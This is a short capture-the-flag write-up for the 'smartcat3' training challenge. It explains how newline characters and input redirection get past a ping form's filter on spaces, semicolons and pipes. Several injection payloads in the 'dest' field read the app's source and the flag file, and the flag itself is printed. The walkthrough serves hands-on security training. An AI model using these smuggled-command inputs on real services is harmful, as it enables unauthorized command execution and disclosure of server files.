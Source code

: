 # smartcat3

**Link**: [https://training03.webhack.it/](https://training03.webhack.it/)

After some tentatives I found that I couldn’t use some chars like `space ; & | \t`  so I couldn’t use them to concatenate the commands. After some search I found that I could use the `\n` so for convenience I used **python** to make tests. I found that I could use commands without space like `cat<file`, `more<file`, `ls`, `HOME=path`, `cd`, `pwd`. So I used them first to get what it was inside the `pwd` directory and I found the running code that was a **python** application that uses **cgi**:

```php
'dest':'127.0.0.1>/dev/null\nls
```

```php
'dest':'127.0.0.1>/dev/null\nls\ncat<app.py
```

After some tentatives I found the correct sequence of commands:

```php
'dest':'127.0.0.1>/dev/null\nHOME=/app/there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/\ncd\nls\nmore<flag'
```

Then I got the **flag**: `WIT{ymBNVfugDCmnit6}`